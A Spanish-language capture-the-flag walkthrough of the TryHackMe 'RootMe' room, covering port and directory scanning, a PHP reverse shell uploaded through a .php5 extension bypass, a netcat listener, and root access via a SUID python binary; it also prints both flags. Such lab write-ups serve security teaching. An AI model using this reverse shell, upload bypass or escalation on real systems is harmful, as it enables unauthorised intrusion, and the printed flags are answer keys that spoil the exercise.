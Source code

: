 ```yaml
---
icon: flag
---
```


# RootMe TryHackMe

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST>
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.234.69/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.234.69/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.234.69/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.234.69/panel/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.234.69/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a `/panel/` encontraremos que se pueden subir cosas, pero no permite subir `.php` que es lo que queremos, por lo que vamos hacer un `ByPass` con la extension...

> File.php

```shell
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Si lo subimos asi no nos dejara, pero cambiamos el `.php` por un `.php5` por lo que ya no lo reconoceria como un `.php` normal quedando algo tal que asi...

> File.php5

Una vez subido el archivo nos descubrio un `/uploads/` por lo que estara ahi el archivo, lo ejecutaremos desde ahi...

Estaremos a la escucha antes de darle al archivo...

```shell
nc -lvnp <PORT>
```

Una vez estando dentro de `www-data` vamos a /www/ donde estara la primera flag...

> user.txt (flag1)

```
THM{y0u_g0t_a_sh3ll}
```

Si hacemos el siguiente comando para ver los permisos `SUID` que tenemos...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Vemos que podemos ejecutar `python` como si fuera `root`...

```
266770   3580 -rwsr-sr-x   1 root     root        3665768 Aug  4  2020 /usr/bin/python
```

Por lo que haremos lo siguiente...

```shell
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Una vez hecho esto seremos root...

> root.txt (flag2)

```
THM{pr1v1l3g3_3sc4l4t10n}
```
